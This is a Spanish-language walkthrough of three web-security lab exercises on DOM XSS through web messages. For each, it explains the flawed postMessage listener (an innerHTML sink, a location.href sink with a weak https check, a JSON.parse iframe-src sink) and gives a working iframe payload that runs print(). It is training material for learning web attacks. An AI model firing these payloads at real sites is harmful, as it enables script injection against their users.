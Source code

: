 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages

### Enunciado

Este laboratorio demuestra una vulnerabilidad sencilla de mensajes web. Usa el servidor de exploits para enviar un mensaje al sitio objetivo que provoque la ejecución de la función `print()`.

### Resolución

Vemos el código fuente y vemos una función **innerHTML** asigna directamente el contenido al elemento **div** con id **ads**.\
Si **e.data** contiene código HTML o JavaScript, **el navegador lo interpretará y ejecutará**.

Además, **observamos que la respuesta no incluye la cabecera `x-frame-options`:**

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Esto permite **incrustar el sitio en un iframe**.

{% embed url="https://developer.mozilla.org/es/docs/Web/API/Window/postMessage" %}

**Con esa base, podemos crear un HTML malicioso como este:**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=alert(XSS)>','*')">
</iframe>
```

Pero para **resolver el laboratorio**, usaremos el payload que dispara **print():**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and a JavaScript URL

### Enunciado

Este laboratorio demuestra una vulnerabilidad de redirección basada en el DOM que se activa mediante web messaging. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y que ejecute la función `print()`.

### Resolución

Vemos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

En este caso, **el procesamiento del web message es vulnerable a XSS basado en DOM**, porque **el event listener no valida correctamente el origen de los mensajes recibidos ni las propiedades y funciones que usa.**

Además, **identificamos un&#x20;**_**sink**_**&#x20;peligroso** `location.href`que permite redirigir a otra página. Sin embargo, **antes de hacer la redirección**, el código verifica que los datos del mensaje contengan **http:** o **https.**

**Con esta información, podemos preparar un HTML malicioso** que use un `<iframe>` y la función **postMessage()** para enviar datos al listener vulnerable en la página objetivo:

```html
<html>
  <body>
    <iframe src="https://0a2b0071046a9d6681aec51300f90043.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
  </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and `JSON.parse`

### Enunciado

Este laboratorio utiliza web messaging y analiza el mensaje como JSON. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y ejecute la función `print()`.

### Resolución

Vemos el código fuente.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

En este caso, **hay un event listener que recibe mensajes web y los interpreta como datos JSON usando `JSON.parse`**. El problema es que **el listener no valida correctamente el origen del mensaje**, por lo que acepta cualquier entrada.

Dentro del código, hay un `switch` con un caso llamado **`load-channel`**, que **cambia el atributo `src` de un elemento `<iframe>`**. Esto convierte ese atributo en un **sink peligroso**.

Con esta información, podemos **crear un HTML malicioso con un `<iframe>`** y usar `postMessage()` para enviar un mensaje manipulado al listener vulnerable.\
El listener tomará el contenido y lo pasará al sink en la página principal:

```javascript
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}", "*")
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Creamos el siguiente paylaod.

```
<html>
    <body>
        <iframe src="https://0ae200cd04519f0c824b014900eb0008.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
